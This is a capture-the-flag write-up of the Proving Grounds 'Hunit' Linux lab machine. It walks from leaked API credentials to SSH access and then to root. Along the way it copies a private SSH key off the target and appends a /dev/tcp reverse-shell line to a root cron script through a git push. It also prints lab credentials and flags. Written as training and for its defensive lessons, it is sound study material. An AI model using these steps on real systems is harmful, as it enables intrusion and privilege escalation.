

| **Details**    | **Values**                                                                                                      |
| :------------- | :-------------------------------------------------------------------------------------------------------------- |
| **Platform**   | `Proving Grounds`                                                                                               |
| **Machine**    | `Hunit`                                                                                                         |
| **Difficulty** | `Meduim`                                                                                                        |
| **OS**         | `Linux`                                                                                                         |
| **Key Skills** | `Informaiton Gathering`, `version control privEsc`,  <!-- e.g., SQLi, XXE, Buffer Overflow, SSTI, Redis RCE --> |
| **Tools Used** | `nmap`, `git`, `linpeas.sh` <!-- e.g., nmap, burp, sqlmap, john, metasploit -->                                 |

## Overview
Hunit is a Linux medium-difficulty machine that features a vulnerable web API endpoint. Initial access was achieved by exploiting an information disclosure vulnerability in the API, which leaked user credentials. These credentials provided a foothold via SSH. Privilege escalation to root was accomplished by exploiting a misconfigured Git repository that was managed by a root-level cronjob, allowing for remote code execution.

## 1. Reconnaissance

### Nmap Enumeration
The engagement began with a comprehensive Nmap scan to map the target's attack surface and identify open ports and services.

```bash
nmap -sC -sV -T4 -oA scans/nmap_initial $ip
```
**Nmap Scan Result**"
### Open Ports & Services

8080/tcp  open  
 open  unknown
open  
43022/tcp open  unknown

| Port      | State | Service    | Version                  | Notes                   |
| --------- | ----- | ---------- | ------------------------ | ----------------------- |
| 8080/tcp  | open  | http-proxy | Apache Tomcat            | Primary Web Service     |
| 12445/tcp | open  | unknown    | netbios-ssn Samba smbd 4 |                         |
| 18030/tcp | open  | unknown    | Apache httpd 2.4.46      |                         |
| 43022/tcp | open  | openSSH    | OpenSSH 8.4              | Potential Access Vector |

## Enumeration and Foothold
## Web Service Enumeration (Port 8080)
 Port 8080 hosted a web application. Manual enumeration of the page source code revealed a commented link pointing to an `/api` endpoint.

**Discovery:**
- Endpoint: `http://<TARGET_IP>:8080/api`
- Further enumeration discovered a `/user` sub-endpoint: `http://<TARGET_IP>:8080/api/user`
    
**Vulnerability:**  
The `/api/user` endpoint was susceptible to an **Information Disclosure** vulnerability. It leaked a list of system users and their associated passwords in plaintext.

**Compromised Credentials:**
- Username: `dademola`
- Password: `ExplainSlowQuest110`




**Findings:**
- `dademola: ExplainSlowQuest110`

## Initial Access
The discovered credentials were used to gain initial access to the machine via SSH on the non-standard port 43022.

```bash
ssh -p 43022 dademola@<ip>
```


## User Flag:

```bash
f899cdb6e5acac0b41905c45782b812b
```

## 4. Privilege Escalation

### 4.1 Host Enumeration

Using `linpeas.sh` to perform local enumeration discovered a cronjob named `crontab.bak` running as root user. listing the content of the `cronttab.bak` has two files `pull.sh` and `backup.sh`. the `pull.sh` was executed every 2 minutes and the `backups.sh` every 3 minutes.

## Post Compromise Enumeration:
Upon gaining user access, local enumeration was performed using the `linpeas.sh` script to identify potential privilege escalation vectors.
### Command:
```bash
chmod +x linpeas.sh
./linpeas.sh | tee linpeas_report.txt
```


## Critical Finding:
The script identified a `crontab.bak` file revealing two root-owned cron jobs:
- A job executing `/root/git-server/backups.sh` every 3 minutes.
- A job executing `/root/pull.sh` every 2 minutes.
## Git Misconfiguration Exploitation
Further investigation revealed that the /root/ directory was a Git repository. The user `git` existed on teh system, and their private SSH key was found at` /home/git/.ssh/id_rsa`
## Exfiltrate SSH Key:
The private key was copied to the attacking machine to authenticate as the `git` user.

```bash
scp -P 43022 dademola@192.168.223.125:/home/git/.ssh/id_rsa .
```


## Access Git Shell:

The private key was used to establish an SSH connection, providing access to a restricted `git-shell` environment.

```bash
ssh -i id_rsa -p 43022 git@192.168.223.125
```

This provides write and execute permission to the git-shell evironment.

At this point we should be able to communicate with the git repo.

## Clone and Modify the Repository:

From the attacker's machine, the Git repository was cloned. The `backups.sh` script was identified as a target for code injection.

```bash
GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@192.168.223.125:/git-server
```


A reverse shell command was appended to the `backup.sh` script.

```bash
echo "sh -i >& /dev/tcp/<kali ip>/8080 0>&1" >> backups.sh
```


## Commit and Push Changes
The malicious changes were committed and pushed back to the remote repository, ensuring the cronjob would execute them.
```bash
cd git-server
git config --global user.name "kali"
git config --global user.email "kali@kali.(none)"
git add -A
git commit -m "pwn"
#push
GIT_SSH_COMMAND='ssh -i ../id_rsa -p 43022' git push origin master
```


## Receive Root Shell
A netcat listener was started on the attacker's machine. Within three minutes, the cronjob executed the modified script, granting a root shell.

```bash
nc -lvnp 8080
```


## Proof.txt 
```bash
aa12bbfcdda1f8423b8371736abdd477
```


## 5. Conclusion & Lessons Learned

The `Hunit` machine was compromised by chaining two critical vulnerabilities:
1. **Information Disclosure:** An exposed API endpoint leaked sensitive credentials, allowing initial access.
2. **Insecure Cronjob Configuration:** A writable Git repository, managed by a root-level cronjob, provided a direct path to privileged remote code execution.
    
## Recommendations:
-  Implement proper access controls on API endpoints to prevent unauthorized data exposure.
- Avoid storing plaintext credentials in application code or responses.
- Apply the principle of least privilege to system and service accounts. The `git` user should not have write permissions to a repository that executes scripts as root.
- Regularly audit `cronjobs` and scripts for potential security misconfigurations.
